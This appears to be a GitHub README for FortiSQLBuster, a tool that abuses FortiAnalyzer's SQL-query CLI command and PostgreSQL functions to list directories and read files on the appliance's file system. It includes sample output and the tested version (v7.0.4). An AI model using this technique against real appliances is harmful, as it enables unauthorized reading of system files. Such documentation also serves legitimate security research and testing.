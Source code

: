 # FortiSQLBuster
A FortiAnalyzer file and directory contents lister tool.

## Description
FortiSQLBuster abuse postgresDB via *execute sql-query-generic* cli command to list and get file/directory contents on the file system.

## Usage
This tool will try automatically to list directory content or to print file content in sequence, before printing an eventual error message.

### List directory content:
```bash
└─$ python3 FortiSQLBuster.py
>: /
<REDACTED_HOSTNAME> #  pg_ls_dir
------------
 proc
 bin
 share
 run
 data
 sbin
 .
 .
 .
 sys
 usr
 etc
 var
 lib64
 lib
 tmp
 root
 dev

```
### Get file content:
```bash
└─$ python3 FortiSQLBuster.py
>: /tmp/afilledfile.txt
<REDACTED_HOSTNAME> #          convert_from
-------------------------------
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```


## Tested on:
```bash
└─$ python3 FortiSQLBuster.py
<REDACTED> # get system status
Platform Type                   : FAZVM64
Platform Full Name              : FortiAnalyzer-VM64
Version                         : v7.0.4-build0306 220608 (GA)
Serial Number                   : <REDACTED>
BIOS version                    : 04000002
Hostname                        : <REDACTED>
Max Number of Admin Domains     : <REDACTED>
Admin Domain Configuration      : Disabled
FIPS Mode                       : Disabled
HA Mode                         : Stand Alone
Branch Point                    : <REDACTED>
Release Version Information     : GA
Current Time                    : Mon Apr 17 16:19:52 CEST 2023
Daylight Time Saving            : Yes
Time Zone                       : (GMT+1:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna.
x86-64 Applications             : Yes
Disk Usage                      : Free 66.04GB, Total 79.79GB
File System                     : Ext4
License Status                  : Valid
```


## Note
You'll impersonate the postgres user on the FS, so won't expect any root/admin grants/capabilities over the FS.
